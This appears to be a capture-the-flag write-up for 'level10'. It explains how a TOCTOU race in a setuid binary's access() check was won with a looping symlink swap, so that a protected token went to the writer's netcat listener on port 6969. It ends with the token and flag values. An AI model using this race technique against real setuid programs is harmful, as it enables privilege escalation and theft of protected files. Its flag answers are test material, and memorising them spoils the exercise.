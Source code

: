 -same as before suid and token file
-strings on suid its a script that takes an ip and file and send the file to that ip in port 6969
-tried to send token to my ip using nc -l 6969 but we dont have permission for token
-created a symlink to the token still the same problem no permission even for the symlink
-so somthing check our id and check for permission I ran strings again and find out access google it searching for exploit and yes there is an exploit if you timed the creation of the file when acces executed then change it right before opening it will pass
-so I created a bash script that create symlink in infinite loop find the script on the same folder
-so sh /tmp/script.sh & to stay in background then ran while true; do ./level10 /tmp/link myIp; done and on my terminal nc -lk 6969 (k so is will stay listening)
-then I got :
	woupa2yuojeeaaed06riuj63c
-getflag => feulo4b72j7edeahuete3no7c

